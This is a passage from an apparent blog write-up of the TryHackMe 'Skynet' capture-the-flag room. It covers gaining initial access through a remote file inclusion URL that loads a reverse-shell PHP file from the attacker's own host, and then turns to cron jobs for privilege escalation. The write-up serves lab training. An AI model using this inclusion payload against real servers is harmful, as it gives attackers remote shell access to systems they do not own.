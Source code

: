 Now you have just to access `http://skynet/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<YOUR-IP>:8000/revshell.php`

The exploit didn't work for, I've got a `"WARNING: Failed to daemonise. This is quite common and not fatal. Connection timed out (110)"` message error. I may be due to some network config policies from the side of THM network team.

So if it does not work for you, switch to the **AttackBox**, it works totally fine.

![](/assets/img/2025-07-30-THM-Skynet/initial-access-www-data.png)

## Initial access
After exploiting the vulnerability, the user flag is quite easy to find. Let's go to the root flag.

![](/assets/img/2025-07-30-THM-Skynet/user-flag.png)

I tried to LinPeas but my terminal was too unstable to get the whole output of the script. So I manually enumerate the linux server. (Not that hard when you have a checklist).

I will skip to you my hard times, but just focus on **`cron jobs`**.

![](/assets/img/2025-07-30-THM-Skynet/crontab.png)
